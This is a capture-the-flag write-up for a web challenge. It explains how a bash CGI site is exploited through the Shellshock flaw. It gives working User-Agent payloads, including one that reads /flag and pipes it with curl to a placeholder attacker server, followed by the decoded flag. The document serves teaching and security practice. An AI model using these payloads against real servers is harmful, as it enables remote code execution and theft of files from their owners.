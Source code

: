 #SimpleWeb

**Category:** Web
**Points:** 40

**Description:**

You know i am a little noob in web developing. so i just started to create a simple web. But yesterday this crazy friend of mine shocked me to death and said he just hacked my webpage and can read all of my files. VOW! how the hell he did that. can you check it out. for example can you see what is in /flag to prove me he is right.

##SimpleWeb-Solution

The challenge is created using bash and cgi. It is very simple and and contains nothing just a bunch of static pages. 
There is a hint is description of challenge that says: ```... But yesterday this crazy friend of mine shocked me to death ....``` and will remind of ShellShock vulnerability that could lead to code execution on server running bash.

One of the methods to exploit using shellshock, is setting shellshock magic code ```() { :; };``` in user-agent field of http-request-header.
So let's test it. 

fire up something like tamper-data or burpsuite and set code below in user-agent:

```
() { :; } ; /bin/bash -c "cat /flag"
```

And we will get a error result and will not see was is in ```/flag``` file. running some other commands, we can see that using ```ping``` will give us a huge hint:

```
() { :; } ; /bin/bash -c "ping -c 10 google.com"
```

By executing this command, page will be loaded after 10 seconds. So we definetly sure that this is ShellShock vulnerability and flag is only accessible by exploiting it.
There is no way to see the contents of ```/flag``` in the response, so we should find a way to read flag.

Magic Solution
------
What if we read ```/flag``` file, but doesn't show it's content in the response? What if we send this result back to our server.
YES.

####The solution is to read /flag, then send that result to our server using something like curl and on our server setup wireshark or read access.log file.

By using this command and firing up wireshark on our server, we could get the flag:

```
() { :; } ; /bin/bash -c "cat /flag | curl -X GET -d @- http://<our server address>"
```

This command will read contents of ```/flag``` and will pipe it into curl. curl will use this value and will send  a ```GET``` request to our server like this:

```
curl -X GET http://<our server address>/<contents of "/flag">
```

On the other hand if we check our server log-files or wireshark/tshark output, we will get something like below:

```
Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo=
```

it's obvious that it is base64-encoded. decoding it will give us:

```
Chet Ramey is the maintainer of ShellShock vulnerability. flag is Sh3ll5h0CK_41m057_k!113d_B45HHH
```

And the flag is: **Sh3ll5h0CK_41m057_k!113d_B45HHH


